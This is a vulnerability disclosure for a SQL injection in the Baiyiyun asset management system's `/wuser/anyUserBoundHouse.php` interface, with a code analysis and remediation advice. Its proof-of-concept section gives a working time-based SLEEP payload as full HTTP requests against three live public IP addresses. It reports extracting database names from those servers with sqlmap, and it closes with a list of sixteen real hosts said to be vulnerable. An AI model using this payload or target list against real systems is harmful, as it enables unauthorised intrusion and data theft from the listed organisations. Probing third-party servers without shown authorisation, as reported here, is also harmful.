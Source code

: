 # Vulnerability Title
SQL Injection Vulnerability in Baiyiyun Asset Management and Operations System `/wuser/anyUserBoundHouse.php` Interface  

---

# Vulnerability Overview
Hunan Zhonghe Baiyi Information Technology Co., Ltd. (referred to as **Baiyiyun**), founded in 2017, is a national high-tech enterprise dedicated to digital solutions in the real estate sector. The company provides comprehensive digital transformation services for residential, commercial, industrial, and public infrastructure sectors, aiming to enhance operational efficiency and reduce costs. The Baiyiyun Asset Management and Operations System was found to contain a **SQL injection vulnerability** in the `/wuser/anyUserBoundHouse.php` interface. Attackers can exploit this vulnerability by crafting malicious requests to inject SQL commands, bypassing normal query logic and directly manipulating the database. Successful exploitation may lead to sensitive data leakage (e.g., database names, user credentials) or even remote command execution and data tampering.  

---

# Code Analysis
The root cause lies in the system’s failure to properly sanitize user-supplied input (`huid`) or implement parameterized queries. Key issues include:  

1. **Unfiltered Input Parameters**: The interface directly concatenates the user-controlled `huid` parameter into SQL statements, such as:

```sql
SELECT * FROM table WHERE huid = {user_input}  
```

2. **Dynamic SQL Concatenation**: Attackers can inject malicious payloads like `1 AND (SELECT 6941 FROM (SELECT(SLEEP(2)))OKTO)` to trigger delayed responses (e.g., `SLEEP(2)`), confirming control over the SQL logic.  
3. **Lack of Prepared Statements**: The absence of parameterized queries or ORM frameworks allows input parameters to alter SQL execution flow.

---

# Proof of Concept
## Reproduction Steps and Results
### Case 1: [http://8.142.100.161](http://8.142.100.161)
**POC Request**:  

```http
GET /wuser/anyUserBoundHouse.php?huid=1%20AND%20(SELECT%206941%20FROM%20(SELECT(SLEEP(2)))OKTO) HTTP/1.1  
Host: 8.142.100.161  
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)  
Accept-Encoding: gzip, deflate  
Accept: */*  
Connection: close  
```

**Result**: The server response was delayed by 2 seconds (confirmed `SLEEP(2)` execution).  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809213163-ee8b3e1e-327e-4ea4-a3de-aecd729554b7.png)  
**Sqlmap Verification**: Successfully extracted the current database name.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809221942-9b1a84ec-daea-4da7-aa28-6d049b097fd0.png)  

### Case 2: [http://120.76.251.27](http://120.76.251.27)
**POC Request**:  

```http
GET /wuser/anyUserBoundHouse.php?huid=1%20AND%20(SELECT%206941%20FROM%20(SELECT(SLEEP(2)))OKTO) HTTP/1.1  
Host: 120.76.251.27  
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)  
Accept-Encoding: gzip, deflate  
Accept: */*  
Connection: close  
```

**Result**: Server response delayed by 2 seconds.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809282483-402d57b0-20d5-440d-9981-82977189fc63.png)  
**Sqlmap Verification**: Database name extracted.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809302030-ff56d64f-2032-47b5-bff0-0db431e56858.png)  

### Case 3: [http://14.18.126.32](http://14.18.126.32)
**POC Request**:  

```http
GET /wuser/anyUserBoundHouse.php?huid=1%20AND%20(SELECT%206941%20FROM%20(SELECT(SLEEP(2)))OKTO) HTTP/1.1  
Host: 14.18.126.32  
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)  
Accept-Encoding: gzip, deflate  
Accept: */*  
Connection: close  
```

**Result**: 2-second delay confirmed.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809339215-bd485930-6117-49d9-9e17-39c4ee8d22ff.png)  
**Sqlmap Output**:  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809345048-5d63263c-7856-474f-bb31-bf4ccfc963ee.png)  

## Asset Verification
**Company Information**:  

+ Name: 湖南众合百易信息技术有限公司
+ English Name: Hunan Zhonghe Baiyi Information Technology Co., Ltd.
+ Official Website: [http://www.baiyishequ.com](http://www.baiyishequ.com)  
+ Email: hongxun@baiyishequ.com

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809443083-8e017f5a-f6bc-4a68-ad8f-55fb145babc0.png)  

---

# Impact
1. **Data Leakage**: Attackers can exfiltrate sensitive data (e.g., user credentials, asset details).  
2. **Privilege Escalation**: Potential execution of system commands or file writes, leading to server compromise.  
3. **Business Disruption**: Data tampering or deletion may cause operational downtime and reputational damage.

---

# Remediation Strategies
1. **Parameterized Queries**: Use prepared statements (e.g., PDO or MySQLi) to separate SQL logic from user input.

```php
$stmt = $pdo->prepare("SELECT * FROM table WHERE huid = :huid");  
$stmt->execute(['huid' => $huid]);  
```

2. **Input Validation**: Enforce strict type checking (e.g., integer conversion) or whitelist validation for `huid`.  
3. **Least Database Privileges**: Restrict database account permissions; avoid using high-privilege accounts (e.g., root).  
4. **Web Application Firewall (WAF)**: Deploy WAF to block SQL injection patterns.  
5. **Security Audits**: Conduct regular code reviews and penetration testing using tools like Sqlmap or OWASP ZAP.

---

# Affected Assets
Partial list of impacted IPs/domains:  

+ [http://139.9.121.16](http://139.9.121.16)  
+ [http://139.9.121.16:88](http://139.9.121.16:88)  
+ [http://jd.scvone.net](http://jd.scvone.net)  
+ [http://www.zhenhua-shenzhen.cn](http://www.zhenhua-shenzhen.cn)  
+ [http://8.142.100.161](http://8.142.100.161)  
+ [http://frct2.baiyishequ.com](http://frct2.baiyishequ.com)  
+ [http://14.18.126.32](http://14.18.126.32)  
+ [http://120.76.251.27](http://120.76.251.27)  
+ [https://yd-wy.com](https://yd-wy.com)  
+ [http://sz.scvone.net](http://sz.scvone.net)  
+ [http://booking.cfuturelab.com](http://booking.cfuturelab.com)  
+ [https://csjc.baiyishequ.com](https://csjc.baiyishequ.com)  
+ [http://csjc.scvone.net](http://csjc.scvone.net)  
+ [http://zgce.gdkxwh.cn](http://zgce.gdkxwh.cn)  
+ [http://baiyiyun.dfmd.net.cn](http://baiyiyun.dfmd.net.cn)  
+ [http://yc.scvone.net](http://yc.scvone.net)

